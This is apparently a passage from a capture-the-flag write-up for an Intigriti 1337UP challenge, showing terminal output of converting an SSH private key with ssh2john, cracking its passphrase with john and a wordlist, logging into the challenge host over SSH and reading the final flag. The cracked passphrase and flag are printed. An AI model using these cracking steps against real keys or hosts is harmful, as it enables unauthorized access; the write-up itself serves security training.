 ```c
└─# /usr/share/john/ssh2john.py id_rsa > hash_ssh
──(root💀kali)-[~/.ssh]
└─# john hash_ssh --wordlist=pass.txt   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/32])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 4 needed for performance.
best_h3ckerman!69- (id_rsa)     
1g 0:00:00:00 DONE (2022-03-12 13:40) 2.325g/s 2.325p/s 2.325c/s 2.325C/s best_h3ckerman!69-
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
It is confirmed that the password for ```id_rsa``` is ```best_h3ckerman!69-```
Lets use SSH to gain access
```c
┌──(root💀kali)-[~/.ssh]
└─# ssh blackn0te@blacknote.ctf.intigriti.io
Enter passphrase for key '/root/.ssh/id_rsa': 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.144+ x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.
To restore this content, you can run the 'unminimize' command.
Last login: Sat Mar 12 18:28:34 2022 from 10.10.0.16
$ id
uid=1000(blackn0te) gid=1000(blackn0te) groups=1000(blackn0te)
$ hostname
misc-liikt1337-db9d484b9-6b7bf
$ ls
flag2.txt  notes.txt  write_anything
$ cat flag2.txt
ff82f00c4e57d0bb} --> END
$ 
```
So the final flag is ```1337UP{5530491e6c0b5159ff82f00c4e57d0bb}```